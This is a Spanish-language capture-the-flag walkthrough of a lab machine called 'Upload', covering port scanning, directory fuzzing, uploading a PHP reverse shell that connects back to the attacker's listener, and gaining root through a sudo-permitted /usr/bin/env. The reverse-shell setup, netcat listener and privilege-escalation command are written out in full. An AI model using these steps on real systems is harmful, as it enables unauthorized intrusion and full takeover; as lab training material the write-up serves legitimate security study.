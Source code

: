# Upload

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Parece por el título que sea un sistema para subir un archivo y vamos a enumerar la página, mientras vemos lo que contiene, dejamos haciendo fuzzing con gobuster.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```

En la página encontramos un sistema de subir archivos que probaremos a subir un archivo con una reverse shell, para obtener acceso a la máquina.

Vamos a ver que hemos encontrado con gobuster y vemos que tenemos un directorio en http://172.17.0.2/uploads/ que tiene pinta que es donde se subirán los archivos.

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
```
## Explotación.

Ahora para subir la reverse shell vamos a https://github.com/pentestmonkey/php-reverse-shell y utilizamos la reverse-shell.php que han creado ellos que funciona muy bien. Solo hay que copiar el código en un archivo php en nuestro ordenador y sustituir la ip y el puerto en el que vamos a estar en escucha.
```bash
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```

Subimos el archivo que terminamos de crear con la reverse shell y vemos que acepta archivos php.

Si vamos al directorio http://172.17.0.2/uploads/ vemos que nuestro archivo está subido y solo tendremos que hacer click sobre él y estar a la espera en nuestro equipo con netcat en puerto que habíamos indicado en el script.

```bash
nc -lvnp 4443
```

Y obtendremos la reverse shell directamente como el usuario data.
```bash
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59230
Linux ebd3a0fc70ea 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 x86_64 x86_64 GNU/Linux
 12:14:20 up 42 min,  0 users,  load average: 0.06, 0.11, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$  
```
## Escalada de privilegios.

Ahora comprobamos empezamos la escalada de privilegios viendo si hay algún archivo con permisos sudo que podamos utilizar siendo el usuario www-data.

```bash
sudo -l
```

```bash
$ sudo -l
Matching Defaults entries for www-data on ebd3a0fc70ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on ebd3a0fc70ea:
    (root) NOPASSWD: /usr/bin/env
$ 
```

Vemos que podemos utilizar el binario /usr/bin/env y para ello podemos ir a [GTFOBins](https://gtfobins.github.io/) y ver como explotar ese binario como muchos otros. En este caso simplemento tenemos que poner el siguiente comando.

```bash
sudo /usr/bin/env /bin/bash
```

Y con ello ya obtenemos una bash como root.
```bash
$ sudo /usr/bin/env /bin/bash
whoami
root
```

Para más comodidad podemos hacer un tratamiento de la tty.

```bash
script /dev/null -c bash
```

-- Hacemos Ctrl + Z --

```bash
stty -raw echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

```bash
root@ebd3a0fc70ea:/# whoami
whoami
root
root@ebd3a0fc70ea:/# 
```

